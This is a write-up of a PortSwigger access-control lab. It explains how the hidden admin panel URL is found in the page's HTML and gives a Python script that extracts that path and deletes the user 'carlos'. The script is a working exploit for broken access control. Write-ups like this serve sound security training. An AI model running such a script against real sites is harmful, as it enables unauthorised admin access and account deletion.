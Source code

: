 ```yaml
---
title: Unprotected admin functionality with unpredictable URL
tags:
  - web-app
  - access
  - control
  - vulnerability
---
```


<a href="https://portswigger.net/web-security/access-control/lab-unprotected-admin-functionality-with-unpredictable-url/">
2. Unprotected admin functionality with unpredictable URL</a>

We're asked to delete the user "carlos" from the website using a known
vulnerability where the admin panel is unprotected. The difficulty is increased
because the URL is unpredictable. We search the contents of the HTML response
and discover a script used to enable and disable the admin panel linked based on
whether the current user isAdmin. This HTML provides us with the endpoint
address of the unpredictable admin panel.

Solution:

```python
# usage:
# python3 2.py \
# --u https://0aaa00a7037819be80f76c960063008a.web-security-academy.net \
# --d carlos

import re
from argparse import ArgumentParser

import requests


def solve(url: str, delete: str) -> None:
    r = requests.get(f"{url.rstrip('/')}")
    admin = re.findall(r"(/admin-[\w]+)", r.text)[0]
    r = requests.get(f"{url.rstrip('/')}{admin}/delete?username={delete}")


def main():
    parser = ArgumentParser()
    parser.add_argument("--u", "--url", dest="url")
    parser.add_argument("--d", "--delete", dest="delete")
    args = parser.parse_args()
    solve(args.url, args.delete)


if __name__ == "__main__":
    main()
```
